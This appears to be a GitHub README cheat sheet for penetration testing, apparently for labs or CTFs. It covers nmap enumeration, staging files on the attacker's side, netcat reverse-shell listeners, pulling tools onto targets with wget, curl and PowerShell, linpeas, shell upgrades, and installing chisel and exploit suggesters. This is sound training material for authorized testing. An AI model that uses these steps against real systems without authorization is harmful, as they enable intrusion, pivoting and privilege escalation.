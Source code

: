 # PT𓀮EH

# toc

<!-- vim-markdown-toc GFM -->

  * [enumeration](#enumeration)
  * [foothold and pivot](#foothold-and-pivot)
    * [kali](#kali)
    * [linux](#linux)
    * [windows](#windows)
  * [priviledge escalation](#priviledge-escalation)
    * [linux](#linux-1)
    * [windows](#windows-1)
* [bonus](#bonus)
  * [oneliners](#oneliners)
  * [kali config](#kali-config)
  * [kali tips](#kali-tips)
  * [basics](#basics)
    * [windows](#windows-2)

<!-- vim-markdown-toc -->

## enumeration

<details><summary><input type=checkbox> port scanning</summary>

```sh
nmap -v $host | tee 00.nmap # fast initial scan.

```

</details>

## foothold and pivot

### kali

<details> <summary><input type=checkbox> serving files</summary>

```sh
# via webserver:
python3 -m http.server 80

# via samba:
impacket-smbserver -smb2server share .
```

</details>

<details><summary><input type=checkbox> reverse shells and port bindings</summary>

```sh
# netcat
rlwrap nc -lnvp 42424

# chisel

# plink
```

</details>


### linux

<details><summary><input type=checkbox> information gathering</summary>


```sh
id # user and groups.
ps -p $$
ip a # or ifconfig.
netstat -tulpen # connections.
lsblk # devices.
locate / # list of probably every file on the system.
# depending on under which user updatedb ran.
```

</details>

<details><summary><input type=checkbox> downloading files</summary>


```sh
# linux download:
wget $h/file
curl $h/file -so file
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
./linpeas.sh -a
```

</details>

### windows

<details><summary><input type=checkbox> downloading files</summary>


```sh
# powershell:
iwr hostname/file.exe -outf file.exe
# long version:
Invoke-WebRequest hostname/file.exe -OutFile file.exe
```

</details>

<details><summary><input type=checkbox> info gathering with external tools</summary>


```sh
linpeas.exe
linpeas.bat # if exe fails.
```

</details>

## priviledge escalation

### linux

### windows

# bonus
## oneliners

<details><summary></summary>

```sh
# upgrade shell:
python -c 'import pyt;pty.spawn("bash")'

# fix environment:
export TERM=linux

# listen for incoming connection:
nc -nvlp 1234

# logging a reverse shell locally:
script # stop with ^D. breaks in vi. finicky.

# get a temp dir:
cd $(mktemp -d)

# get local connections:
netstat -tulpen
```

</details>

## kali config

<details><summary></summary>

```sh
# pip2 for new Kalis:
curl -s https://bootstrap.pypa.io/get-pip.py | python2
pip2 install requests colorama # for the exploit above.
pip2 install xlrd # for windows exploit suggester.
apt install ncdu

pip3 install cve_searchsploit # https://github.com/andreafioraldi/cve_searchsploit
# update it:
cve_searchsploit -u

cd /opt
git clone 'https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git'
cd Windows-Exploit-Suggester
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --help

# chisel
cd /opt
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_windows_386.gz'
wget 'https://github.com/jpillora/chisel/releases/download/v1.7.1/chisel_1.7.1_linux_386.gz'
gunzip chisel*
mv chisel*windows* chisel.exe
```

</details>

## kali tips

<details><summary></summary>

* ranger disables previews for root (enable them on a by case basis with `zp`)

</details>

## basics
### windows

<details><summary></summary>

```sh
# windows get cmd.exe help:
help

# powershell
cd $env:tmp

# cmd.exe
cd %tmp%
```

</details>
